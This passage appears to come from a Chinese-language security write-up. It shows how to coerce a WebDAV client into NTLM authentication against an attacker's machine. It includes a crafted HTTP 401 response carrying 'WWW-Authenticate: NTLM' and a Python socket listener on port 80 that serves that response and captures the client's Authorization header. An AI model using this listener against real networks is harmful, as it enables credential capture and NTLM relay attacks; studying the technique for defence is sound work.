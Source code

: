如上图所示，Netcat 上收到了一个 HTTP OPTIONS 请求。根据 `User-Agent` 头部字段的值，我们可知这仅仅是一个 WebDAV 请求。为了让客户端对我们的 80 端口执行身份验证，我们应该回复并发送身份认证请求，相关数据如下：

```http
HTTP/1.1 401 Unauthorized
Server: Microsoft-IIS/7.5
Date: Sat, 14 May 2022 16:53:29 GMT
Content-Type: text/html
WWW-Authenticate: NTLM
Content-Length: 0

```

为了完成该任务，我创建了一个简单的 Python 脚本，使用 Socket 在任意端口上监听，然后向连接该 Socket 的第一个客户端发送一个上述 HTTP 响应：

```python
# -*- coding: UTF-8 -*-
import socket    

response = '''HTTP/1.1 401 Unauthorized
Server: Microsoft-IIS/7.5
Date: Sat, 14 May 2022 16:53:29 GMT
Content-Type: text/html
WWW-Authenticate: NTLM
Content-Length: 0

'''.replace("\n","\r\n")

 
server = socket.socket()
host = '0.0.0.0'
port = 80
server.bind((host, port))
 
server.listen(5)
print(f'[*] Server listening on {host}:{port}...')

while True:
  conn, addr = server.accept()
  print('Connection Address:', addr)
  rev = conn.recv(1024).decode()
  print(rev)
  conn.send(response.encode())
  conn.close()

  if 'Authorization:' in rev:
    break
```

如下图所示，当客户端再次连接到攻击机的 80 端口时，将向攻击机执行 NTLM 身份验证：
